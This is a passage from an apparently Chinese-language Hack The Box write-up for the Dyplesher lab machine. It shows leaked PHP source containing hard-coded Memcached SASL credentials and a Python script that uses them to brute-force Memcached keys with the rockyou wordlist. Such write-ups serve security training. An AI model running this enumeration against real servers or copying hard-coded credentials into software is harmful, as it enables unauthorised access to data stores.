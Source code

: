 这个页面就是 [http://test.dyplesher.htb](http://test.dyplesher.htb) 页面的源码，会将`&lt;key, value&gt;`以键值对的方式添加到MemCache数据库中：

```
&lt;HTML&gt;
&lt;BODY&gt;
&lt;h1&gt;Add key and value to memcache&lt;h1&gt;
&lt;FORM METHOD="GET" NAME="test" ACTION=""&gt;
&lt;INPUT TYPE="text" NAME="add"&gt;
&lt;INPUT TYPE="text" NAME="val"&gt;
&lt;INPUT TYPE="submit" VALUE="Send"&gt;
&lt;/FORM&gt;

&lt;pre&gt;
&lt;?php
if($_GET['add'] != $_GET['val'])`{`
        $m = new Memcached();
        $m-&gt;setOption(Memcached::OPT_BINARY_PROTOCOL, true);
        $m-&gt;setSaslAuthData("felamos", "zxcvbnm");
        $m-&gt;addServer('127.0.0.1', 11211);
        $m-&gt;add($_GET['add'], $_GET['val']);
        echo "Done!";
`}`
else `{`
        echo "its equal";
`}`
?&gt;
&lt;/pre&gt;

&lt;/BODY&gt;
&lt;/HTML&gt;
```

`Memcached::setSaslAuthData()`函数的作用是设置应用于与memcache服务器进行SASL身份验证的用户名和密码，从源码可知用户名是`felamos`，密码是`zxcvbnm`。

### <a class="reference-link" name="%E6%9E%9A%E4%B8%BEMemcache%E9%94%AE%E5%80%BC%E5%AF%B9"></a>枚举Memcache键值对

python3 安装[python-binary-memcached](https://pypi.org/project/python-binary-memcached/)模块：

```
pip install python-binary-memcached
```

写了一个简单的脚本：

```
import bmemcached
client = bmemcached.Client(('10.10.10.190:11211', ), 'felamos', 'zxcvbnm')
fp = open('/usr/share/wordlists/rockyou.txt','r')
line = fp.readline().strip()
while line:
    response = client.get(line)
    if response:
        print(line + ": " + response)
        break
    line = fp.readline().strip()

fp.close()
```
